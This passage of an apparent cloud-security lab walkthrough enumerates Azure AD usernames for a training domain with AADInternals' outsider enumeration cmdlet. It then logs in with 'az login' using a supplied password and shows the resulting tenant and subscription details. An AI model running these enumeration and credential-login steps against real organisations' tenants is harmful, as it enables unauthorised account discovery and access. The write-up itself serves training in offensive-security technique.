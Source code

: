 Let's use [../Tool - AADInternal#1. Outsider|Tool - AADInternal Outsider](<../Tool - AADInternal.md#1-outsidertool-aadinternal-outsider>) to search for the username. We'll feed the possible username list into Invoke-AADIntUserEnumerationAsOutsider. And voilà! We have Yuki's username.


```powershell
PS>  Invoke-AADIntUserEnumerationAsOutsider -d megabigtech.com

cmdlet Invoke-AADIntUserEnumerationAsOutsider at command pipeline position 1
Supply values for the following parameters:
UserName[0]: 

PS> Get-Content ./possible_users.txt | Invoke-AADIntUserEnumerationAsOutsider -d megabigtech.com

```


![](https://i.imgur.com/tNPx5U9.png)

```
UserName : yuki.tanaka@megabigtech.com
Exists   : True
```



Let's check if the account uses the provided password, `************.
Beautiful. We can get in. 


```powershell
PS> az login -u yuki.tanaka@megabigtech.com -p *****$
Authentication with username and password in the command line is strongly discouraged. Use one of the recommended authentication methods based on your requirements. For more details, see https://go.microsoft.com/fwlink/?linkid=2276314
Password: 
[
  {
    "cloudName": "AzureCloud",
    "homeTenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "id": "ceff06cb-e29d-4486-a3ae-eaaec5689f94",
    "isDefault": true,
    "managedByTenants": [],
    "name": "Microsoft Azure Sponsorship",
    "state": "Enabled",
    "tenantDefaultDomain": "megabigtech.com",
    "tenantDisplayName": "Default Directory",
    "tenantId": "2590ccef-687d-493b-ae8d-441cbab63a72",
    "user": {
      "name": "yuki.tanaka@megabigtech.com",
      "type": "user"
    }
  }
]
```

![](https://i.imgur.com/COYHR4g.png)
